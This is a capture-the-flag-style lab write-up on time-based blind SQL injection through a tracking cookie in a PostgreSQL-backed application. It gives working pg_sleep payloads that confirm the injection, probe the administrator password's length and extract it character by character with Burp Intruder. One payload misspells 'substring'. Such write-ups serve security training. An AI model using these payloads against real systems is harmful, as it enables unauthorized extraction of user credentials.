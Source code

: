 
## Description:

this lab contains a blind SQL injection vulnerability, the application uses a tracking cookie for analytics and performs a query containing the value of the cookie

the results of the squery are not returned and the application does not respond any differently based on whether the query returns any rows or causes an error, but the query is executed synchronously so it is possible to trigger conditional delays to infer information

the database contains a table called 'users' with columns 'username' and 'password', you need to exploit the blind SQL injection vulnerability to find out the password of the administrator user

## Solution:

verify that the injection triggers a time delay:

	' || pg_sleep(5)-- \\ this will make the response take ~5 seconds longer

check for the username 'administrator' in the 'users' table

	'||(SELECT CASE WHEN (username='administrator') THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users)--

checks the length of the administrator user password by doing a series of length checks

	'||(SELECT CASE WHEN length(password) > 19 THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users WHERE username='administrator')-- \\ the response will take ~1200ms, indicating the password is bigger than 19 characters

	'||(SELECT CASE WHEN length(password) > 20 THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users WHERE username='administrator')-- \\ the response will take ~200ms, indicating the password is not bigger than 20 characters

since we concluded it is bigger than 19 and not bigger than 20, the password must be exactly 20 characters long


construct query to verify condition based on whether or not the response takes a specific amount of time

	'|| (SELECT CASE WHEN subtring(password,$1$,1) = '$2' THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--

using Burp Intruder to configure a numeric list from 1 to 20 with step 1 in the \$1$ payload and an alphanumeric lowercase list in the \$2$ payload it is possible to exfiltrate the administrator user password
